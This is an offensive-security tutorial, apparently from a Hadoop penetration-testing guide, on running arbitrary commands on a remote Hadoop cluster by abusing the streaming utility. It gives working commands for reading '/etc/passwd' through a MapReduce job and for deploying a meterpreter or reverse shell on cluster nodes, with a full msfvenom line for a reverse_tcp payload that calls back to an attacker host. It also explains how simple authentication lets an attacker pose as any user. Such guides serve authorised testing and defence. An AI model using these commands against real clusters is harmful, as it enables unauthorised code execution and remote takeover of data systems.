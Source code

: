 Executing remote commands
=========================

Description
-----------
This tutorial explains how to execute arbitrary commands on an Hadoop cluster

Prerequisites
-------------
1. A **working attack environment**: Hadoop binaries and the target cluster configuration are needed. Follow the following tutorials to set them up: 
  * [Setting up an Hadoop attack environment](../Setting%20up%20an%20Hadoop%20attack%20environment)
  * [Getting the target environment configuration](../Getting%20the%20target%20environment%20configuration)  
  
2. Then you need to be able to access the following **Hadoop services through the network**:
  * **YARN ResourceManager**: usually on ports 8030, 8031, 8032, 8033 or 8050
  * **NameNode metadata service** in order to [browse the HDFS datalake](../Browsing%20the%20HDFS%20datalake): usually on port 8020
  * **DataNode data transfer service** in order to upload/download file: usually on port 50010
  
3. Finally you have to look up which **authentication level** is deployed, the cluster you are attacking might have:
  * Either **simple authentication** enforced: in that case you don't need credentials, you can simply specify which user you want to be with the `HADOOP_USER_NAME`
  * Or **Kerberos authentication** enforced (called ["Hadoop Secure Mode"](https://hadoop.apache.org/docs/r2.7.2/hadoop-project-dist/hadoop-common/SecureMode.html)): in that case you need proper Kerberos tickets
  
  
Executing a single command
--------------------------
1. Go to the directory where you decompressed Hadoop binaries (`/opt` in the tutorial):
  ```
  $ cd /opt/hadoop-2.7.3/
  ```
  
2. Call the Hadoop streaming utility:
  ```
  $ hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input <a non empty file on HDFS> -output <a nonexistant directory on HDFS> -mapper <your single command> -reducer NONE
  ```
  
Some explanations might be useful:
  * `-input <a non empty file on HDFS>`: this will be provided as input to MapReduce for the command to be executed, just put at least a character in that file, this file is useless for our objective 
  * `-output <a nonexistant directory on HDFS>`: this directory will be used by MapReduce to write the result, either `_SUCCESS` or failure
  * `-mapper <your single command>`: the command to execute, for instance `"/bin/cat /etc/passwd"`. The output result will be written in the `-output` directory
  * `-reducer NONE`: there is no need for a reducer to execute a single command, a mapper is enough  

Note that for certain distributions you might need to put **additional parameters** (with `-D`) to submit a MapReduce job, for instance on **HortonWorks cluster** you need the **`-Dhdp.version=<version>`** option: you can find this information when you grab the target cluster configuration.  

Then when the job has terminated its execution: 
* Check the output result:
  ```
  $ hadoop fs -ls <a nonexistant directory on HDFS>
  ```
  
* Display the output:
  ```
  $ hadoop fs -cat <a nonexistant directory on HDFS>/part-00000
  ```
  
  
Executing a meterpreter/reverse shell
-------------------------------------
Due to the [limitations](#limitations) inherent to Hadoop, it is recommended to **use a `reverse shell` payload** (meterpreter or plain reverse_shell)
```
$ hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input <a non empty file on HDFS> -output <a nonexistant directory on HDFS> -mapper <your executable meterpreter path on HDFS> -reducer NONE -file <your executable meterpreter path on your local attacking environment> -background
```
Again, some explanations:
  * `-file <your executable meterpreter path on your local attacking environment>`: your local meterpreter executable will be uploaded on HDFS, for instance `"/root/foobar/meterpreter.elf"`
  * `-mapper <your executable meterpreter>`: an HDFS path to your executable meterpreter, by default put `"./meterpreter.elf"`
  * `-background`: this starts the job without waiting for its completion  

Then **start your meterpreter listener**, wait **few dozen of seconds** (yes it is quite slow) before gaining your **meterpreter session**.  
  
  
Limitations
-----------
Due to the **distributed nature of a MapReduce job**, it is not possible to specify on which node you want to execute your payload. There is **no mechanism** ensuring that the payload you will launch on **two successive jobs** will execute on the **same cluster member**.  
As a consequence **you can't know beforehand the server IP where your payload will be executed**: so just use a `reverse shell` payload and **gently wait for your shell to arrive**.

It is possible to use a meterpreter, for instance generated as following:
```
$ msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=<IP address> -f elf -o msf.payload
```
Note that on certain Hadoop clusters the meterpreter does work, the session is created, but calling the `shell` command leads to session termination for unknown reasons. In that case use a plain metasploit `reverse_shell` payload.
  
  
References
----------
Check the [Hadoop Streaming page](https://hadoop.apache.org/docs/r2.7.2/hadoop-streaming/HadoopStreaming.html) for any additional help